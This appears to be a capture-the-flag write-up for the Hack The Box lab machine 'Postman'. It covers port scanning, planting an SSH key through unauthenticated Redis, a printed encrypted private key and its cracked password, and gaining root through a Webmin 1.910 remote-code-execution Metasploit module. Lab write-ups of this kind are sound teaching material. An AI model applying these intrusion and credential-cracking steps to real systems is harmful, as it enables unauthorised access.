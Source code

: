 # recon
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 46:83:4f:f1:38:61:c0:1c:74:cb:b5:d1:4a:68:4d:77 (RSA)
|   256 2d:8d:27:d2:df:15:1a:31:53:05:fb:ff:f0:62:26:89 (ECDSA)
|_  256 ca:7c:82:aa:5a:d3:72:ca:8b:8a:38:3a:80:41:a0:45 (ED25519)


PORT     STATE SERVICE VERSION
6379/tcp open  redis   Redis key-value store 4.0.9


PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: The Cyber Geek's Personal Website


PORT      STATE SERVICE VERSION
10000/tcp open  http    MiniServ 1.910 (Webmin httpd)
```
## port 80
- check only for html extension since the website is not running php
```
/css (Status: 301)
/fonts (Status: 301)
/images (Status: 301)
/index.html (Status: 200)
/js (Status: 301)
/server-status (Status: 403)
/upload (Status: 301)
```
## port 10000 https
- webmin cli

# foot hold + redis
- https://book.hacktricks.xyz/pentesting/6379-pentesting-redis#redis-rce
- seem like we can upload webshell or smuggle ssh key. Sine the website is not runing php then we only have 1 chooice -> follow hacktricks [link](https://book.hacktricks.xyz/pentesting/6379-pentesting-redis#ssh): 
- redis-cli:
```
postman.htb:6379> CONFIG GET  *
166) "/var/lib/redis/.ssh"
```
there is a direcotry which we can put key inside. follow the guide on hacktricks and you should get a foothold!!

- linpeas.sh
```
[+] Sudo version
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-version
Sudo version 1.8.21p2
.
.
[+] Searching ssl/ssh filess
/var/lib/redis/.ssh/authorized_keys
/usr/src/linux-headers-4.15.0-58/scripts/config /opt/id_rsa.bak   
Port 22
PermitRootLogin yes
PubkeyAuthentication yes
PasswordAuthentication yes
ChallengeResponseAuthentication no
UsePAM yes
 --> /etc/hosts.allow file found, read the rules:
/etc/hosts.allow
.
.
Searching inside /etc/ssh/ssh_config for interesting info
Host *
    SendEnv LANG LC_*
    HashKnownHosts yes
    GSSAPIAuthentication yes
.
.
[+] Backup files?
-rwxr-xr-x 1 Matt Matt 1743 Aug 26  2019 /opt/id_rsa.bak
.
.
root        733  0.0  3.1  95296 29332 ?        Ss   16:34   0:00 /usr/bin/perl /usr/share/webmin/miniserv.pl /etc/webmin/miniserv.conf

```
- mat keys?
```
redis@Postman:~$ cd /opt/
redis@Postman:/opt$ ls
id_rsa.bak
redis@Postman:/opt$ cat id_rsa.bak 
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: DES-EDE3-CBC,73E9CEFBCCF5287C

JehA51I17rsCOOVqyWx+C8363IOBYXQ11Ddw/pr3L2A2NDtB7tvsXNyqKDghfQnX
cwGJJUD9kKJniJkJzrvF1WepvMNkj9ZItXQzYN8wbjlrku1bJq5xnJX9EUb5I7k2
7GsTwsMvKzXkkfEZQaXK/T50s3I4Cdcfbr1dXIyabXLLpZOiZEKvr4+KySjp4ou6
cdnCWhzkA/TwJpXG1WeOmMvtCZW1HCButYsNP6BDf78bQGmmlirqRmXfLB92JhT9
1u8JzHCJ1zZMG5vaUtvon0qgPx7xeIUO6LAFTozrN9MGWEqBEJ5zMVrrt3TGVkcv
EyvlWwks7R/gjxHyUwT+a5LCGGSjVD85LxYutgWxOUKbtWGBbU8yi7YsXlKCwwHP
UH7OfQz03VWy+K0aa8Qs+Eyw6X3wbWnue03ng/sLJnJ729zb3kuym8r+hU+9v6VY
Sj+QnjVTYjDfnT22jJBUHTV2yrKeAz6CXdFT+xIhxEAiv0m1ZkkyQkWpUiCzyuYK
t+MStwWtSt0VJ4U1Na2G3xGPjmrkmjwXvudKC0YN/OBoPPOTaBVD9i6fsoZ6pwnS
5Mi8BzrBhdO0wHaDcTYPc3B00CwqAV5MXmkAk2zKL0W2tdVYksKwxKCwGmWlpdke
P2JGlp9LWEerMfolbjTSOU5mDePfMQ3fwCO6MPBiqzrrFcPNJr7/McQECb5sf+O6
jKE3Jfn0UVE2QVdVK3oEL6DyaBf/W2d/3T7q10Ud7K+4Kd36gxMBf33Ea6+qx3Ge
SbJIhksw5TKhd505AiUH2Tn89qNGecVJEbjKeJ/vFZC5YIsQ+9sl89TmJHL74Y3i
l3YXDEsQjhZHxX5X/RU02D+AF07p3BSRjhD30cjj0uuWkKowpoo0Y0eblgmd7o2X
0VIWrskPK4I7IH5gbkrxVGb/9g/W2ua1C3Nncv3MNcf0nlI117BS/QwNtuTozG8p
S9k3li+rYr6f3ma/ULsUnKiZls8SpU+RsaosLGKZ6p2oIe8oRSmlOCsY0ICq7eRR
hkuzUuH9z/mBo2tQWh8qvToCSEjg8yNO9z8+LdoN1wQWMPaVwRBjIyxCPHFTJ3u+
Zxy0tIPwjCZvxUfYn/K4FVHavvA+b9lopnUCEAERpwIv8+tYofwGVpLVC0DrN58V
XTfB2X9sL1oB3hO4mJF0Z3yJ2KZEdYwHGuqNTFagN0gBcyNI2wsxZNzIK26vPrOD
b6Bc9UdiWCZqMKUx4aMTLhG5ROjgQGytWf/q7MGrO3cF25k1PEWNyZMqY4WYsZXi
WhQFHkFOINwVEOtHakZ/ToYaUQNtRT6pZyHgvjT0mTo0t3jUERsppj1pwbggCGmh
KTkmhK+MTaoy89Cg0Xw2J18Dm0o78p6UNrkSue1CsWjEfEIF3NAMEU2o+Ngq92Hm
npAFRetvwQ7xukk0rbb6mvF8gSqLQg7WpbZFytgS05TpPZPM0h8tRE8YRdJheWrQ
VcNyZH8OHYqES4g2UF62KpttqSwLiiF4utHq+/h5CQwsF+JRg88bnxh2z2BD6i5W
X+hK5HPpp6QnjZ8A5ERuUEGaZBEUvGJtPGHjZyLpkytMhTjaOrRNYw==
-----END RSA PRIVATE KEY-----
```

# user
use ssh2john, follow by colabhash to crack the password. **NOTE do not run with python3!!!** there are some encoded error
```console
$ /usr/share/john/ssh2john.py id_rsa.bak > ssh_john.txt
```
now crack it using **colabhash**
```
hashcat -m 22911 -a 0 sshjohn.txt rockyou.txt -o cracked.txt
```
cracked after few sec,` Matt:computer2008` now time to ssh as Matt
```
┌──(kali㉿kali)-[~/HTB/postman]
└─$ ssh matt@postman.htb -i id_rsa.bak                                                                    255 ⨯
load pubkey "id_rsa.bak": invalid format
Enter passphrase for key 'id_rsa.bak': 
Connection closed by 10.10.10.160 port 22
```
hmm.. I tried like 3 times, it didnt works... seem like something is blocking us. So let `su` as Matt from our `redis` ssh session
```
redis@Postman:~$ su Matt
Password: 
Matt@Postman:/var/lib/redis$ 
```
# root
let grab user flag!!!, I try to do like sudo bypass vuln sine it is an old version. but it didnt work since Matt is not allow to execute any sudo command. I went back and read this note and notice that Webmin is running as root!!! I then try to connect to webmin with Matt credential and we got in. From the Webmin page I can see that it is runing `Webmin version 1.910`. After google googling for exploit I found
- https://www.exploit-db.com/exploits/46984
- https://github.com/KyleV98/Webmin-1.910-Exploit/blob/master/Webmin%201.910%20-%20Remote%20Code%20Execution%20using%20BurpSuite
- and metasploit module

I when for a easy way = metasploit module. If you want try harder way, then try out the github link or IPPsec did a vid about it too.
We will use `exploit/linux/http/webmin_packageup_rce` the opstion. execute it and got shell as root!!